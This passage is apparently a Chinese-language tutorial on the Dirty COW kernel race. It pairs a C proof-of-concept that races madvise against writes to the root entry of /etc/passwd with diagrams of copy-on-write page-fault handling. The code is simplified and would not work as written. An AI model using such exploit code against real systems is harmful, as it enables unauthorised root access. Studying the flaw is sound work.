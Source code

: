 ```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
int f;
struct stat st;

void *madviseThread(void *arg) {
    while(1) {
        madvise(map, 100, MADV_DONTNEED); // 关键漏洞触发点
    }
}

int main(int argc, char *argv[]) {
    // 1. 打开目标文件（只读权限）
    f = open("/etc/passwd", O_RDONLY);
    fstat(f, &st);
    
    // 2. 创建私有只读映射
    map = mmap(NULL, st.st_size, PROT_READ, MAP_PRIVATE, f, 0);
    
    // 3. 创建捣乱线程
    pthread_t pth;
    pthread_create(&pth, NULL, madviseThread, NULL);
    
    // 4. 主线程尝试写入
    char *position = strstr(map, "root:"); // 查找root条目
    while(1) {
        // 尝试修改root密码字段
        position[5] = 'X'; // 触发COW
    }
}
```

#### 提权步骤

初始状态:

```Mermaid
graph LR
    A[磁盘 /etc/passwd] --> B[页缓存]
    B --> C[进程虚拟内存]
    C -->|mmap MAP_PRIVATE| D[只读访问]
```

正常流程:

```mermaid
sequenceDiagram
    participant CPU
    participant MMU
    participant Kernel
    participant RAM
    
    CPU->>MMU: 写入只读页
    MMU->>Kernel: 触发#PF页错误
    Kernel->>RAM: 分配新物理页P_new
    Kernel->>RAM: 复制原页内容到P_new
    Kernel->>MMU: 更新页表：虚拟页→P_new (RW权限)
    Kernel->>CPU: 返回用户态
    CPU->>MMU: 成功写入P_new
```
